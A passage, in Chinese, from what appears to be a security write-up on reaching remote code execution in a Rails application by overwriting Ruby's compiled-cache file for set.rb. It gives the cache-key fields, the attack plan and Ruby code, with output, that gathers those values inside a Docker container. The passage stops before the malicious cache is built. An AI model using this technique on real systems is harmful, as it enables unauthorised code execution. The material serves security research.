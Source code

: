 - ruby_platform：Ruby 运行平台的哈希值（例如，x86_64-linux）。  
  
- compile_option：编译 Ruby 文件时使用的编译选项的 CRC32（例如，优化标志）。  
  
- ruby_revision：Ruby 特定修订版本的哈希值（例如，git 提交哈希）。  
  
- size：原始文件的大小。  
  
- mtime：原始文件的最后修改时间。  
  
考虑到这些信息，我们制定了一个通过覆盖缓存文件来实现 RCE 的计划。  
  
**开发**  
  
我们的计划是挑选一个 Rails 应用可能需要的文件，覆盖其缓存版本并触发应用重启。原因是当应用在启动过程中需要目标文件时，它将加载我们的恶意缓存，从而使我们能够实现 RCE。  
  
**覆盖缓存文件**  
  
我们选择覆盖Ruby 标准库中的set.rb缓存文件。它也可以是其他文件，但最好是 Rails 本身、应用程序或其中一个库可能执行的文件。  
  
我们获取了在 docker 容器内部填充缓存键的信息。从 Dockerfile 中看到，Ruby 版本是 3.2.2，所以set.rb文件的位置是/usr/local/lib/ruby/3.2.0/set.rb。通过在 docker 容器中执行以下 Ruby 代码，我们很容易就得到了我们所需的信息：  
  
```
require 'json'
 
def get_info(pattern)
  path = Dir.glob(pattern).first
  json = {
    version: RUBY_VERSION,
    require_target: path,
    revision: RUBY_REVISION,
    size: File.size(path),
    mtime: File.mtime(path).to_i,
    compile_option: RubyVM::InstructionSequence.compile_option.inspect
  }
  JSON.dump(json)
end
puts get_info("/usr/local/lib/ruby/*/set.rb")
```  
  
  
  
```
{
  "version": "3.2.2",
  "require_target": "/usr/local/lib/ruby/3.2.0/set.rb",
  "revision": "e51014f9c05aa65cbf203442d37fef7c12390015",
  "size": 25920,
  "mtime": 1680174389,
  "compile_option": "{:inline_const_cache=>true, :peephole_optimization=>true, :tailcall_optimization=>false, :specialized_instruction=>true, :operands_unification=>true, :instructions_unification=>false, :stack_caching=>false, :frozen_string_literal=>false, :debug_frozen_string_literal=>false, :coverage_enabled=>true, :debug_level=>0}"
}
```  
  
  
考虑一下这是我们从现在开始使用的ruby_info变量的值。  
  
